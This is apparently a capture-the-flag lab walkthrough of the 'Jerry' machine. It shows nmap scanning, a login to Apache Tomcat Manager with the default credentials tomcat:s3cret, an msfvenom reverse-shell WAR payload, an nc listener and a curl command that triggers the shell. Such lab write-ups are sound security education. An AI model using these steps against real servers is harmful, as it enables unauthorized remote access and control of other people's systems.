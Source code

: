 # 👨 Jerry

# Nmap Scan

```
sudo nmap -p- 10.129.136.9
```

```
sudo nmap -p 8080 -sCV 10.129.136.9
```

\# nmap output:

![[Pasted image 20240229212219.png]]

The nmap scan shows just one port open:
- Port 8080 for HTTP

# Apache Tomcat

Putting `10.129.136.9:8080` into Firefox takes us to this website:

![[Pasted image 20240229212400.png]]

I clicked on Manager app and after doing the [[Tabby]] machine earlier I knew the default credentials for tomcat are: `tomcat:s3cret`

This combination worked and I now had access to the Tomcat Manager App:

![[Pasted image 20240302014118.png]]

## Creating Reverse Shell

A reverse shell can be created using a `.war` file. Scrolling down the Tomcat Manager page I can see that this instance of Tomcat is running on a Windows Server.

\# Generating the `.war` file

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=4444 -f war > rev_shell_4444.war
```

\# Checking the `.jsp` of the `.war`

```
jar -ft rev_shell_4444.war
```

\# Uploading the `.war` file to Tomcat

![[Pasted image 20240302015346.png]]

\# Start Ncat listener

```
nc -lnvp 4444
```

\# Deploy the `.war` file

![[Pasted image 20240302015604.png]]

\# Use `curl` to execute

```
curl http://10.129.136.9:8080/rev_shell_4444/sevgbtdnymoed.jsp
```

![[Pasted image 20240302020313.png]]

I now have a reverse shell:

![[Pasted image 20240302020425.png]]

---

# 🤯 User Own & 🖥 System Own

I can `cd` around like in Linux but it is `dir` to list contents of directories.

The flag can be found in: `C:\Users\Administrator\Desktop\flags`

The file name is: 2 for the price of 1.txt

This means that in order to `type` it out to screen the filename must be surrounded by " ".

![[Pasted image 20240302020949.png]]

